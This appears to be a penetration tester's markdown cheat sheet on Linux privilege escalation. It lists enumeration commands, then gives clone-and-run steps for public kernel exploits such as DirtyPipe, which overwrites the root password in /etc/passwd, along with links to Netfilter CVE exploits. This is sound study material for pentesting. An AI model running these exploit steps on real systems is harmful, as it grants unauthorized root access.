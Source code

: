 # LINUX PRIVILEGE ESCALATION


## Enumeration

1. What am I
    - `hostname`
    - `whoami`
    - `id -a`
2. OS Version
    - `/etc/issue`
    - `/etc/os-release`
2. Kernel Version
    - `lscpu`
    - `/proc/version` - system kernel version information and additional data about compilers e.g. GCC
    - `uname -a`
    - `lsmod` - enumerate loaded kernel modules
        - `/sbin/modinfo <MODULENAME>` - find out more info about a module
    - `linpeas.sh` - find vulnerable CVEs 
        - E.g. DirtyPipe (CVE-2022-0847)
            - `git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git`
            - `bash compile.sh` (on target machine)
            - `./exploit-1` --> Set root user password to "piped" in /etc/passwd and get interactive shell then restore /etc/password.original
            - `./exploit-2` --> Run SUID binary as root, e.g. /bin/sudo
        - E.g. Netfilter:
            - CVE-2021-22555: Versions 2.6 - 5.11 https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
            - CVE-2022-25636: Versions 5.4 - 5.6.10 https://github.com/Bonfee/CVE-2022-25636.git
            - CVE-2023-32233: Versions <= 6.3.1 - https://github.com/Liuk3r/CVE-2023-32233
3. Running Processes + Services
    - `ps` - **check out who b runnin what, check for root**
    - `ps -A` - for all running processes
    - `ps axjf` - view process tree
    - `ps aux [| grep root]` - show processes for `a`ll users, display the `u`ser that launched the process and show processes that are not attached to a tty (`x`)
    - `watch -n 1 "ps -aux | grep pass"` - anything running with 'pass' in it?
    - Some common vulnerable services include:
        - Nagios
        - Exim
        - Samba
        - ProFTPd 
    - `find /proc -name cmdline -exec cat {} \; 2>/dev/null | tr " " "\n"` - for each process, read the command line command that was used to execute this process. translate space characters to new lines
4. Installed Services, Applications, Packages and Versions
    - `apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list` - list of installed packages, reformat output and save to file
    - `for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d');do if grep -q "$i" installed_pkgs.list;then echo "Check GTFO for: $i";fi;done` - neat one liner to identify vulnerable binaries using GTFObins
    - `ls -l /bin /usr/bin /usr/sbin | tee installed_binaries.list` - list installed binaries, may include stuff not present in packages
    - `dpkg -l`
5. Logged in users
    - `lastlog` - last login info for users
    - `who` or `finger` to see who is currently logged in
6. User Home Directories
    - `ls -al`
7. SSH Directory Contents
    -  `ls .ssh`
8. Bash History Contents
    - `history`